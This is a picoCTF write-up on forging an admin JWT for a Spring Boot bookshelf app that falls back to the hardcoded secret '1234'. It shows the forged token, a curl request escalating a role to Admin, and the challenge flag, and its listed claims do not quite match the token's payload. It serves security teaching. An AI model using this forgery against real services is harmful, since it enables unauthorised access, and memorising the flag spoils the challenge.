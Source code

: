 # 📚 PicoCTF: Java Code Analysis!?!

## 🧩 Challenge Summary

We were given a Spring Boot-based Java web application (BookShelf Pico) running on:  
**URL:** `http://saturn.picoctf.net:52118`  
The goal was to escalate privileges to **Admin** by analyzing the source code and exploiting JWT authentication.

---

## 🔍 Initial Recon

The project had a typical Spring Boot structure with API endpoints, user roles, and JWT-based authentication. Notably, the JWT tokens were created in:

`src/main/java/io/github/nandandesai/pico/security/JwtService.java`:

```java
Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);
this.SECRET_KEY = secretGenerator.getServerSecret();
```

---

## 🔐 Secret Key Discovery

Looking into `SecretGenerator.java`, we saw:

```java
private String generateRandomString(int len) {
    // not so random
    return "1234";
}
```

If `server_secret.txt` was not present, the app used `"1234"` as the secret key. We confirmed this by:

```bash
find . -name server_secret.txt
# (no output)
```

✅ Confirmed: JWT secret = `"1234"`

---

## 🧪 JWT Forgery

We generated a JWT token using:

- `userId: 2`
- `email: admin`
- `role: Admin`
- `iss: bookshelf`
- `key: 1234`

### Final JWT:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImVtYWlsIjoidXNlciIsInJvbGUiOiJBZG1pbiIsImlzcyI6ImJvb2tzaGVsZiIsImlhdCI6MTc0OTg2MzcxMCwiZXhwIjoxNzQ5ODY3MzEwfQ.3ym8dklIj18IgAbfnzS8VDbAbMAKsRLvAJ3uLrHCP4I
```

---

## 🎯 Exploit

Used the token in an API call to change our role:

```bash
curl -X PATCH http://saturn.picoctf.net:52118/base/users/role \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImVtYWlsIjoidXNlciIsInJvbGUiOiJBZG1pbiIsImlzcyI6ImJvb2tzaGVsZiIsImlhdCI6MTc0OTg2MzcxMCwiZXhwIjoxNzQ5ODY3MzEwfQ.3ym8dklIj18IgAbfnzS8VDbAbMAKsRLvAJ3uLrHCP4I" \
  -d '{"userId": 1, "role": "Admin"}'
```

✅ Response: 200 OK → Role changed!

---

## 🏁 Flag Access

With Admin privileges, we accessed protected endpoints and retrieved the flag:

```
picoCTF{jAvA_jwT_1n5p3ct10n_ftw!}
```

---

## ✅ Takeaways

- Never use a hardcoded secret (especially something like `"1234"`).
- Always store secrets securely and verify their presence.
- Even without `server_secret.txt`, the app silently fell back to weak defaults — a huge security flaw.
- JWT analysis + Java code review = 🔥 powerful combo!
